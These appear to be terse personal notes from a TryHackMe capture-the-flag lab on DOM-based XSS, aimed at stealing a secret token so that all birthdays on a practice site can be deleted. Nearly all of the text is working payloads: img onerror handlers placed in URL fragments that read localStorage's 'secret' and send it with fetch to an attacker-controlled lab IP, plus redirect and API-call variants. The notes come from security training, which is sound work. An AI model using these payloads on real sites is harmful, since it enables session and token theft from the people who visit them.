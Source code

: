 how to delete all birthdays
-> to get to know `?secret=` value 
-> using DOM xss ? 

~https://realwebsite.com#<img src=1 onerror=alert(document.secret)></img>
=> checking the dom xss attack is working 
=> using this how to know the secret value ? 
document.secret? 

~https://realwebsite.com#<img src=1 onerror="fetch('http://10.10.104.193:8000?secret=' + localStorage.getItem('secret'))"></img>

~<img src=1 onerror="fetch('http://10.10.104.193:8000' + localStorage.getItem('secret'))">

~https://realwebsite.com#<img src = 1 onerror=alert(localStorage.getItem('secret'))>

~https://realwebsite.com#<img src=1 onerror=alert(panda)></img>


~<img src=1 onerror="window.location='http://lists.tryhackme.loc:5001/ping'">

~<img src=1 onerror="fetch('http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=' + localStorage.getItem('secret'))">

~http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=
